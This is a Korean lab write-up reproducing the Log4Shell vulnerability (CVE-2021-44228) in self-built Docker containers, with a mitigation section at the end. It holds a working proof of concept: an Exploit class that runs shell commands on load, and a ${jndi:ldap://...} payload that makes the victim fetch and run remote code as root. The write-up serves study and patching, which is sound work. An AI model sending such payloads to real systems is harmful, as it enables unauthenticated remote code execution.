



# CVE-2021-44228

**Contributors**

최재서(9467) - @JaeSEO61

### 요약

- Apache Log4j2(2.0-beta9 ~ 2.14.1)의 JNDI Lookup 기능을 이용해, 사용자 입력이 로그 메시지에 그대로 기록될 때 `${jndi:ldap://...}` 형태의 문자열을 파싱하여 원격 LDAP/RMI 서버로부터 임의의 Java 클래스를 로드·실행할 수 있는 취약점이다. 인증 없이 원격에서 임의 코드 실행(RCE)이 가능하며 "Log4Shell"로 불린다.
- <https://nvd.nist.gov/vuln/detail/CVE-2021-44228>
- <https://logging.apache.org/log4j/2.x/security.html>
- <https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228>

### Log4j란?

- Log4j는 Apache Software Foundation에서 개발한 Java 기반 오픈소스 로깅 라이브러리로, 스프링을 포함한 수많은 자바 애플리케이션에서 로그 기록에 광범위하게 사용된다.

### CVE-2021-44228 소개

- Log4j2는 로그 메시지 내부에 `${...}` 형태의 Lookup 표현식을 지원하며, 이 중 `jndi` Lookup은 JNDI(Java Naming and Directory Interface)를 통해 외부 리소스를 조회할 수 있다.
- 공격자가 제어하는 문자열이 `logger.error(input)`처럼 그대로 로깅되면, Log4j2가 `${jndi:ldap://공격자서버/경로}` 패턴을 해석해 해당 LDAP 서버에 실제로 접속한다.
- LDAP 서버가 돌려주는 Reference 객체의 코드베이스(codebase) URL을 통해 원격 HTTP 서버에서 `.class` 파일을 내려받아 JVM에 로드하면서 해당 클래스의 static 블록이 즉시 실행된다.
- JDK 8u191부터 `com.sun.jndi.ldap.object.trustURLCodebase` 기본값이 `false`로 바뀌면서 순수 remote class loading 방식은 최신 JDK에서 기본 차단되며, 이 환경은 실습 목적상 JDK 8u181-b13(해당 옵션이 유효하게 동작하는 버전)으로 고정하고 옵션을 명시적으로 켰다.

### 취약 조건

- `log4j-core` 2.0-beta9 ~ 2.14.1 버전을 사용 중이어야 함
- 공격자가 제어 가능한 입력값이 로그 메시지에 그대로 포함되어야 함 
- 대상 JVM에서 JNDI를 통한 원격 클래스 로딩이 허용되어야 함 
- 공격자가 victim 애플리케이션과 네트워크로 통신 가능해야 함 

### 환경 구성

`docker-compose.yml`로 두 개의 컨테이너를 자체 빌드한다. 외부에서 미리 빌드된 취약 이미지를 pull하지 않고, 둘 다 `ubuntu:20.04` 베이스에서 `build:`로 직접 구성했다.


```
CVE-2021-44228/
├── docker-compose.yml
├── vulnerable-app/
│   ├── Dockerfile
│   ── VulnerableApp.java
├── ldap-server/
│   ├── Dockerfile
│   └── Exploit.java
├── 1.png
├── 2.png
└── 3.png
```

### PoC 코드

공격자가 서빙하는 `Exploit.class`의 소스로, 클래스가 로드되는 순간(static 초기화 블록) 임의 명령을 실행한다.

```java
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec(new String[]{
                "/bin/sh", "-c",
                "id > /tmp/exploit_result.txt; echo 'PWNED by Log4Shell PoC' >> /tmp/exploit_result.txt"
            });
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

victim 애플리케이션에 입력하는 JNDI 페이로드:

```
${jndi:ldap://log4shell-attacker:1389/Exploit}
```

### 환경 구성 및 재현 절차

- 저장소를 클론한 뒤, `CVE-2021-44228` 디렉터리에서 다음 명령으로 두 컨테이너를 빌드한다.

```
docker compose up -d --build
```

- ldap-server가 정상적으로 LDAP(1389)/HTTP(8000) 리스너를 열었는지 로그로 확인한다.

```
docker logs log4shell-attacker
```

[](1.png)

- victim 컨테이너에 attach하여 애플리케이션이 stdin 입력을 대기 중인지 확인한다.

```
docker attach log4shell-victim
```

```
${jndi:ldap://log4shell-attacker:1389/Exploit}
```

[](2.png)


### 실행 결과

- 다른 터미널에서 victim 컨테이너 내부의 결과 파일을 확인한다.

```
docker exec log4shell-victim cat /tmp/exploit_result.txt
```

```
uid=0(root) gid=0(root) groups=0(root)
PWNED by Log4Shell PoC
```

[](3.png)

- `id` 명령 결과와 `PWNED by Log4Shell PoC` 문자열이 출력되면, victim JVM 프로세스 권한(이 환경에서는 root)으로 임의 명령이 실행된 것이 확인된 것입니다. 이는 애플리케이션이 로그에 남긴 문자열 하나만으로 원격 코드 실행이 성립함을 보여준다.


### 대응 방안

**버전 업그레이드**: `log4j-core`를 2.17.1 이상으로 업그레이드한다. 2.15+부터 JNDI Lookup이 기본 비활성화되며, 2.16+부터는 메시지 Lookup 기능 자체가 제거되었다.


